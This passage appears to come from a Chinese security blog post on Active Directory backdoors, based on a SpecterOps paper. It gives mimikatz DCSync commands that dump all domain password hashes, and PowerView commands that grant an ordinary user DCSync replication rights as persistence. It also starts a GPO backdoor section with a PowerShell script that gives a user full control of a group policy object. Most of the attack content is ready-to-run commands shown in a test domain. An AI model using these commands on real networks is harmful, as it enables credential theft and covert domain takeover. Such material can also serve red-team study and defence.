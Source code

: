 该方法学习自：https://www.specterops.io/assets/resources/an_ace_up_the_sleeve.pdf

DCSync是mimikatz的一个功能，能够模拟域控制器并从域控制器导出帐户密码hash

如果我们在域内一台主机上获得了域管理员权限，可以使用如下命令直接导出域内所有用户的hash：

```
mimikatz.exe privilege::debug "lsadump::dcsync /domain:test.com /all /csv exit"
```

导出域内administrator帐户的hash：

```
mimikatz.exe privilege::debug "lsadump::dcsync /domain:test.com /user:administrator exit"
```

默认情况下，只有`Domain Controllers`和`Enterprise Domain Admins`权限能够使用DCSync

但我们可以对`DS-Replication-GetChanges(GUID: 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2)`和`DS-Replication-Get-Changes-All(1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)`添加ACL，这样就能实现普通用户调用DCSync导出域内所有用户的hash

实现代码：

https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1#L8270

添加ACL的命令如下：

```
Add-DomainObjectAcl -TargetIdentity "DC=test,DC=com" -PrincipalIdentity test1 -Rights DCSync
```

接下来，在域内一台登录了test1用户的主机上面，就能使用mimikatz的DCSync功能

删除ACL的命令如下：

```
Remove-DomainObjectAcl -TargetIdentity "DC=test,DC=com" -PrincipalIdentity test1 -Rights DCSync
```

#### 2、GPO后门

(1)查看当前域内的GPO

```
Import-Module GroupPolicy
Get-GPO -All
```

如下图，`TestGPO`是我在测试环境自己添加的，`Default Domain Policy`和`Default Domain Controllers Policy`是域环境默认存在的GPO

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-12-12/4-3.png)

(2)添加用户test1对TestGPO的完全访问权限

```
$RawObject = Get-DomainGPO -Raw -Identity 'TestGPO'
$TargetObject = $RawObject.GetDirectoryEntry()
$ACE = New-ADObjectAccessControlEntry -InheritanceType All -AccessControlType Allow -PrincipalIdentity test1 -Right AccessSystemSecurity,CreateChild,Delete,DeleteChild,DeleteTree,ExtendedRight,GenericAll,GenericExecute,GenericRead,GenericWrite,ListChildren,ListObject,ReadControl,ReadProperty,Self,Synchronize,WriteDacl,WriteOwner,WriteProperty
$TargetObject.PsBase.ObjectSecurity.AddAccessRule($ACE)
$TargetObject.PsBase.CommitChanges()
```
